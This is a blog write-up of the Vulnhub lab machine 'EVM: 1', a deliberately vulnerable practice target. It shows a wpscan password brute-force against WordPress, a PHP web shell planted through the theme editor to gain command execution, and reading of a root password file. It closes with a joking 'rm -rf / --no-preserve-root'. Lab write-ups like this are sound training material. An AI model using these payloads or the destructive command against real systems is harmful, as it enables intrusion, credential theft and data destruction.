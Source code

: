 ```yaml
---
layout: post
title:  "Vulnhub - EVM: 1"
date:   2020-10-15 20:00:00 +1000
category: hacking
---
```


## Introduction
*This is super friendly box intended for Beginner's  
This may work better with VirtualBox than VMware*

-- note: some of the spelling and punctuation errors on this blog are mine; but if I quoted something (like above), I tend to quote it verbatim, even if I know it's incorrect.

This box is on the [NetSecFocus Admin list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) of OSCP-like machines. It's [EVM: 1](https://www.vulnhub.com/entry/evm-1,391/) from vulnhub.

## Network Setup
I run my Kali as a VM on a Windows host, in Bridged mode. And that's how I like it. This machine (and - I'm now realising, some others) *don't* like it. It's set up for Host Only. But if I run Host Only, then Kali can't see it, unless I reconfigure Kali, which I don't want to do. Ugh.

## Ports
Anyway, this one has SMB, POP3, HTTP, SSH. This won't be a very detailed writeup; I'm tired and mildly frustrated. Full disclosure; I'm currently roadblocked on two other boxes. 

## HTTP
The webserver is running wordpress at */wordpress* and we can get some creds:

``
root@kali:/opt/vulnhub/evm# wpscan  --url http://192.168.1.105/wordpress --ignore-main-redirect -U 'c0rrupt3d_brain' -P /usr/share/wordlists/rockyou.txt 
``

See the redirect? That's because I did this in Bridged mode but it keeps trying to go back to the Host Only IP it's been set up with - 192.168.56.103. Also I ran *-e* first to get the username. Anyway:

{% highlight shell %}
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0rrupt3d_brain / 24992499                                    Trying c0rrupt3d_brain / 24992499 Time: 00:13:05 <                         (10700 / 14355093)  0.07%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499
{% endhighlight %}

Using these credentials we should be able to log in to Wordpress, but it just *would not* in Bridged mode - just constant redirects. Grrr.

## Host Only
I switched the VM to Host Only and went over to Windows to see if I could continue without too much bother.

Visiting wp-admin I could log in easily, so that's a start. I decided to try the theme code editing for once - it worked like a charm and in fact had been set up for this attack. I put

``
<?php system($_GET['cmd']);?>
``

into 
>http://192.168.56.103/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen 

and had RCE at:
>http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php?cmd=

## Shell
Lol, no. I've got Ubuntu running on WSL (version 1, not the apparently better version 2) with netcat installed but I couldn't get it to catch a reverse shell and I couldn't be bothered mucking about too much. Simple manual enumeration was enough:

``
http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php?cmd=cat%20/home/root3r/.root_password_ssh.txt
``

>willy26

For some reason I couldn't SSH in from Windows, either from Powershell OR from Ubuntu WSL. F***.

So I just went and put the creds straight into the login on the running VM:

{% highlight shell %}
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cd /root/
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cd cat proof.txt
voila you have successfully pwned me :) !!!
:D
{% endhighlight %}

I guess that was that. Man, that would have been **so much easier** without the network issues. I'm assuming there are probably multiple ways to do this box. I might try it again later with a Host Only Kali. But probably not.

In the meantime I'm going to give it one of these:

``
rm -rf / --no-preserve-root
``
